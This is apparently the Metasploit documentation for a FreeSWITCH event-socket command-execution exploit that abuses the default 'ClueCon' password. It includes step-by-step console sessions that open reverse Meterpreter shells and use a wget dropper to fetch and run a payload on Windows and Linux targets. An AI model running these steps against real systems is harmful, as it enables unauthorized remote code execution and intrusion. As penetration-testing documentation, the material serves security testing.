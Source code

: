 ## Description

  This module uses the FreeSWITCH event socket interface
  to execute system commands using the `system` API command.

  The event socket service is enabled by default and listens
  on TCP port 8021 on the local network interface.


## Vulnerable Application

  [FreeSWITCH](https://freeswitch.com) is a free and open-source software defined
  telecommunications stack for real-time communication, WebRTC, telecommunications,
  video, and Voice over Internet Protocol.

  The [Event Socket](https://freeswitch.org/confluence/display/FREESWITCH/mod_event_socket)
  `mod_event_socket` is a TCP based interface to control FreeSWITCH and is enabled by default.

  The default values are to bind to 127.0.0.1 port 8021 and the default password is `ClueCon`.

  This module has been tested successfully on FreeSWITCH versions:

  1.6.10-17-726448d~44bit on FreeSWITCH-Deb8-TechPreview virtual machine;
  1.8.4~64bit on Ubuntu 19.04 (x64); and
  1.10.1~64bit on Windows 7 SP1 (EN) (x64).

  Source and Installers:

  * [Source Code Repository](https://github.com/signalwire/freeswitch)
  * [Installers](https://freeswitch.org/confluence/display/FREESWITCH/Installation)
  * [Virtual Machine](https://freeswitch.com/index.php/fs-virtual-machine/)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/misc/freeswitch_event_socket_cmd_exec`
  3. Do: `set rhosts <ip>`
  4. Do: `set rport <port>` (default: `8021`)
  5. Do: `set password <password>` (default: `ClueCon`)
  6. Do: `set target <target>`
  7. Do: `run`
  8. You should get a session


## Options

  **Password**

  The password for the event socket. (default: `ClueCon`)


## Scenarios

### Windows PowerShell Target

```
msf > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.242)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 2
target => 2
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (310 bytes) ...
[*] Sending stage (180291 bytes) to 172.16.191.242
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:50706) at 2019-11-02 17:31:33 -0400

meterpreter > getuid
Server username: TEST\user
meterpreter > pwd
C:\Program Files\FreeSWITCH
meterpreter > sysinfo
Computer        : TEST
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```


### Linux Dropper Target

```
msf > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.172)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 1
target => 1
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set cmdstager::flavor wget
cmdstager::flavor => wget
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (150 bytes) ...
[*] 127.0.0.1:1234 - Using URL: http://0.0.0.0:8080/WuWvURUHveqo5
[*] 127.0.0.1:1234 - Local IP: http://172.16.191.165:8080/WuWvURUHveqo5
[*] 127.0.0.1:1234 - Client 172.16.191.172 (Wget/1.16 (linux-gnu)) requested /WuWvURUHveqo5
[*] 127.0.0.1:1234 - Sending payload to 172.16.191.172 (Wget/1.16 (linux-gnu))
[*] Sending stage (985320 bytes) to 172.16.191.172
[*] 127.0.0.1:1234 - Command Stager progress - 100.00% done (120/120 bytes)
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.172:42478) at 2019-11-02 17:34:59 -0400
[*] 127.0.0.1:1234 - Server stopped.

meterpreter > getuid
Server username: uid=999, gid=999, euid=999, egid=999
meterpreter > pwd
/
meterpreter > sysinfo
Computer     : 172.16.191.172
OS           : Debian 8.5 (Linux 3.16.0-4-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```


### UNIX Generic Command Target

```
msf > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.172)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 0
target => 0
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set payload cmd/unix/generic 
payload => cmd/unix/generic
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set cmd "id; uname -a"
cmd => id; uname -a
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set verbose true
verbose => true
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (12 bytes) ...
[*] 127.0.0.1:1234 - Response: Content-Type: api/response
Content-Length: 159

uid=999(freeswitch) gid=999(freeswitch) groups=999(freeswitch)
Linux freeswitch-vm 3.16.0-4-amd64 #1 SMP Debian 3.16.36-1+deb8u1 (2016-09-03) x86_64 GNU/Linux

[*] Exploit completed, but no session was created.
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > 
```
